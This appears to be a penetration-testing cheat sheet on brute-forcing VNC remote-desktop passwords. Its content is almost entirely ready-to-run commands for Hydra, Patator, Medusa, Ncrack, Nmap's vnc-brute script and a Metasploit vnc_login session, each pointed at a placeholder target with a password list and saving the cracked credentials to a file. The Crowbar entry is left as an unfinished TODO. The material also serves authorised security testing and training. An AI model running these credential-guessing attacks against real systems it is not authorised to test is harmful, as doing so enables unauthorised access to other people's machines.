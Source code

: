 # VNC

## 01 - Hydra

`$ hydra -vvv -P <password_list> -e nsr -t 16 <IP> vnc -o vnc_creds.txt`

## 02 - Crowbar

TODO: Provide a syntax of vnckey to brute force targets with crowbar

`$ crowbar`

## 03 - Patator

`$ patator vnc_login host=<IP> password=FILE0 0=<password_list> -t 1 -x retry:fgrep!='Authentication failure' --max-retries 0 -x quit:code=0 -R vnc_creds.txt`

## 04 - Medusa

`$ medusa -h <IP> -u root -P <password_list> -M vnc | tee vnc_creds.txt`

## 05 - Ncrack

`$ ncrack -V --user root -P <password_list> -oN vnc_creds.txt <IP>:5900`

## 06 - Metasploit

```
msf > use auxiliary/scanner/vnc/vnc_login

msf auxiliary(scanner/vnc/vnc_login) > options

Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                                   Required  Description
   ----              ---------------                                                   --------  -----------
   BLANK_PASSWORDS   false                                                             no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                 yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                             no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                             no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                             no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                                              no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                                                                            no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/vnc_passwords.txt  no        File containing passwords, one per line
   Proxies                                                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             5900                                                              yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                                             yes       Stop guessing when a credential works for a host
   THREADS           1                                                                 yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                                           no        A specific username to authenticate as
   USERPASS_FILE                                                                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                             no        Try the username as the password for all users
   USER_FILE                                                                           no        File containing usernames, one per line
   VERBOSE           true                                                              yes       Whether to print output for all attempts

msf auxiliary(scanner/vnc/vnc_login) > set rhosts <IP>

msf auxiliary(scanner/vnc/vnc_login) > set rport <PORT>

msf auxiliary(scanner/vnc/vnc_login) > set PASS_FILE /path/to/passwords.txt

msf auxiliary(scanner/vnc/vnc_login) > set threads 4

msf auxiliary(scanner/vnc/vnc_login) > exploit
```

## 07 - Nmap

`$ nmap -p 5900 --script vnc-brute --script-args passdb=passwords.lst <IP>`

---
## References

- [Password Cracking VNC](https://www.hackingarticles.in/password-crackingvnc/)